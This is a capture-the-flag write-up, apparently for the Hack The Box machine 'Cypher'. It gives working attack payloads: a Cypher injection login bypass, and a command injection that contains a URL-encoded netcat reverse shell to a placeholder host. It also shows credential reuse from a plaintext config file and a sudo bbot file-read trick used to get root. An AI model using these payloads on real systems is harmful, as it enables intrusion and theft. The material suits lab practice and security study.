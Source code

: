 # Foothold

## Step 1: Scan for Open Ports

First thing, let's scan for open ports with the following `nmap` command:

```bash
nmap -sV -sC -p- --defeat-rst-ratelimit -O -A cypher.htb
```
## Scan results:
![Nmap port scan](img/nmap.png)

## Step 2: Investigate website

With only ports 80 and 22 open, we’ll start by examining the web service.

![Login page](img/loginpage.png)

## Step 3: Cypher injection

After trying some Cypher injection payloads we can see that there is a huge error popping up. This strongly suggests a potential Cypher injection vulnerability.

![Login page after injecting 'OR 1=1](img/image.png)

## Step 4: Crafting authentication bypass payload

```bash
{
  "username": "admin' OR 1=1 RETURN 'a94a8fe5ccb19ba61c4c0873d391e987982fbbd3' AS hash //",
  "password": "test"
}
```
### How this works?
This payload returns the hash of the string "test", which is then used for comparison against the user-provided password hash instead of actual admins hash.

![Demo page](img/Demopage.png)

## Step 5: Crafting SSRF payload with Cypher Injection

```bash
CALL custom.getUrlStatusCode("http://ip:port/?c=$(whoami)")
```

This payload leverages a custom function to retrieve the HTTP status code from a specified URL. However, it also includes a command injection ($(whoami)) at the end of the URL, which attempts to execute a system command on the server.

### How to use?

1. Set up netcat listener on your port.

```bash
nc -lnvp 4444
```

2. Enter the payload into search query on the website.

```bash
CALL custom.getUrlStatusCode("http://<ip>:<port>/?c=$(rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20<ip>%20<port>%20%3E%2Ftmp%2Ff)")
```

3. Check your listener for response.

![Foothold](img/foothold.png)

# PrivEsc

## Step 1: List /home/graphasm

![listhome](img/listhome.png)

After listing graphasms home files we find bbot configuration file which contains password in plain text. We can now use those credentials to connect to SSH as graphasm.

## Step 2: SSH as graphasm

Right after logging in, I tried running sudo -l, and this was the response.

After some time, I discovered that I can parse custom YARA rules, and with the help of the debugger flag, I can retrieve the contents of any file specified by that flag.

```bash
sudo bbot -t target.com --custom-yara-rules=/root/root.txt --debug
```
![img](img/root.png)

And thats how we get the root flag! :)
Cypher pwned.


